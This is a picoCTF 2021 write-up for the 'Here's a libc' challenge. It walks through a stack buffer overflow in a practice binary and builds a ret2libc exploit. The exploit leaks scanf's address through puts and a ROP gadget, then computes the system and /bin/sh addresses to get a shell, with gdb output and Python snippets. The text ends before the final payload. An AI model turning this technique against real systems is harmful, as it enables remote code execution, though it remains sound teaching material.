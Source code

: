 # Here's a libc challenge

## Category
Tags: #BinaryExploitation
Github Write-up: https://github.com/mr-r3bot/picoctf2021/tree/main/heres-a-libc
Link to challenge: https://play.picoctf.org/practice/challenge/179?category=6&page=1

## Setup

1. Identify libc version

```text
strings libc.so.6 | grep -i version

GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1.2) stable release version 2.27.
```

2. Grabbing the linker

- Need to find a `libc 2.27` to run the `vuln` binary

- Install `pwninit`

```text
cargo install pwninit
```

`pwnint` will fetch the libc version needed to run the library

- Specify the binary `vuln` to use linker `ld-2.27.so`  lib

`patchelf --set-interpreter ./ld-2.27.so ./vuln`

3. Check binary security

```text
checksec --format=cli --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   68 Symbols     No	0		0	vuln
```

=> There is no ASLR enabled for the binary
=> DEP enabled (W^X on stack)

## Explore

The binary is vulnerable to `Buffer Overflow` , because `scanf` function didn't check the length of allocated buffer

![[Pasted image 20210612173211.png]]

Run the binary with `gdb` , and send a pattern of `200` characters

```text
 Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x7a
$rbx   : 0x0
$rcx   : 0x00007ffff7af4264  →  0x5477fffff0003d48 ("H="?)
$rdx   : 0x00007ffff7dd18c0  →  0x0000000000000000
$rsp   : 0x00007fffffffe2a8  →  "raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa[...]"
$rbp   : 0x6161616161616171 ("qaaaaaaa"?)
$rsi   : 0x00007ffff7dd07e3  →  0xdd18c0000000000a
$rdi   : 0x1
$rip   : 0x0000000000400770  →  <do_stuff+152> ret
$r8    : 0x79
$r9    : 0x0
$r10   : 0x0
$r11   : 0x246
$r12   : 0x1b
$r13   : 0x0
$r14   : 0x1b
$r15   : 0x0
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe2a8│+0x0000: "raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa[...]"	 ← $rsp
0x00007fffffffe2b0│+0x0008: "saaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaaya[...]"
0x00007fffffffe2b8│+0x0010: "taaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffe2c0│+0x0018: "uaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffe2c8│+0x0020: "vaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffe2d0│+0x0028: "waaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffe2d8│+0x0030: "xaaaaaaayaaaaaaa"
0x00007fffffffe2e0│+0x0038: "yaaaaaaa"
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400769 <do_stuff+145>   call   0x400540 <puts@plt>
     0x40076e <do_stuff+150>   nop
     0x40076f <do_stuff+151>   leave
 →   0x400770 <do_stuff+152>   ret
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x400770 in do_stuff (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400770 → do_stuff()
```

Figure it out at which `offset` of the characters we starting to override the `RIP` register

```text
gef➤  pattern offset $rsp
[+] Searching '$rsp'
[+] Found at offset 136 (little-endian search) likely
[+] Found at offset 129 (big-endian search)
gef➤
```



## Planning 

We have to enable ASLR in gdb because GDB default not turn ASLR on. Because we want to remote exploit the system 

### How do we defeat ASLR ?
**Goal: Override Global Offset Table (GOT) and ret2libc**

=> We have to find a way to leak memory address of `function` from `libc` so we can return to (leak libc address )

Plan of attack:
- Use `puts` to leak an address
- We need to supply arguments to `puts` function (`puts` take one arguments)
- After we got the leaked address, we need to calculate the offset betwen the address function that we leaked and the function we want to return to (`system`)
- Get function execution `system(/bin/sh)` => remote shell

=> We can use ROP technique to do this( Return Oriented Programming )


## Exploit 
In x86_64 calling conventions (Linux) , arguments are place in order in the follow registers

```text
RDI (1st argument)
RSI (2nd argument)
RDX	(3rd argument)
```

Because we are using `puts` to leak memory of address and `puts` take one argument => We should find ROP gadgets that modify the `RDI` value

### Find ROP gadgets to leak memory address

```command
sudo pip3 install ROPgadget
ROPgadget --binary vuln

"""
0x0000000000400913 : pop rdi ; ret
"""
```

`scanf` function at GOT

![[Pasted image 20210612182817.png]]

`puts` function at PLT (executable address)

![[Pasted image 20210612183905.png]]



```python
scanf_got = 0x601038
pop_rdi = 0x400913
puts_at_glt = 0x400540
....
# leaked address
leaked_address = u64(p.recvline().strip().ljust(8, b"\x00")) # Add prefix to make it 8 bytes (suffix in Little Endian)
log.info(f"[+] Leaked: {hex(leaked_address)}")
```

=> Got a leak address with python script

### Calculate Offset
After our leak, we can calculate offset between the function that we leaked (`scanf`) and the function that we want (`system`)

1. Find `scanf` function offset in `libc`

```command
readelf -s libc.so.6 | grep scanf
...
2062: 000000000007b0b0   197 FUNC    GLOBAL DEFAULT   13 scanf@@GLIBC_2.2.5
...
```
2. Calculate base address of libc function
```python
scanf_offset_in_libc = 0x7b0b0
base_libc_address = leaked_address - scanf_offset_in_libc
```
3. Find `system` function offset in `libc`
```command
readelf -s libc.so.6 | grep system
...
1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
...
```
4. Get `system` address 
```python
system_offset_in_libc = 0x4f4e0
system_addres = base_libc_address + system_offset_in_libc
```
5. Find `/bin/sh` address in libc


Load `libc.so.6` in to **Ghidra/Cutter** (Reverse Engineering tools) and search `string` for `/bin/sh` and get the offset 

```python
bin_sh_offset = 0x2b40fa
bin_sh_address = base_libc_address + bin_sh_offset
```
6. 
